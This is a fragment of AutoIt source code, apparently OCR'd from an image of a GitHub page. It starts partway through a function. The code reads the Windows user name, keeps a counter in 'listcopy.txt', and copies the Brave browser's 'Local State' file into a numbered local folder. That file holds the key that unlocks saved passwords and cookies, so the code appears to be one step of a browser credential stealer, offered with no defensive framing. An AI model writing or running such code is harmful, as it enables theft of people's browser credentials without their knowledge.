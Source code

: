 	$u = @UserName
	If _filecountlines("listcopy.txt") = 0 Then
		FileWriteLine("listcopy.txt", 1)
		$file = 1
	Else
		$file = FileReadLine("listcopy.txt", -1) + 1
		FileWriteLine("listcopy.txt", $file)
	EndIf
	$zzz = "C:\Users\" & $u & "\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State"
	FileCopy($zzz, "Local\" & $file, 9)
EndFunc
